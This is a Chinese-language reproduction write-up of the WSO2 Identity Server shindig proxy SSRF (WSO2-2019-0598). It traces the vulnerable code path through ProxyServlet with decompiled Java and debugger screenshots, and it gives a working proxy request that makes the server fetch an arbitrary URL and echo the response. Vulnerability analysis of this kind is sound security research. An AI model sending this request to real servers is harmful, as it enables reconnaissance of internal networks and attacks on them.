 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

```
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
```

## 环境搭建

https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip

## 漏洞复现

根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241706233.png)

下载源码启动环境，在IDEA中调试

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241706823.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707257.png)

根据官方描述，在全局搜索 shindig 相关代码

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707162.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707337.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707039.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707053.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707509.png)

但断点调试过程中，却发现这个点是利用失败的

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241707755.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241708844.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241708016.png)

发送请求包，打断点看一下处理流程

```
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中

```
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到`org.apache.shindig.gadgets.servlet.ProxyHandler`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241708606.png)

`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241709066.png)

接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241709229.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241709438.png)

最后回显至页面中, 造成存在回显的SSRF

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241709588.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241709610.png)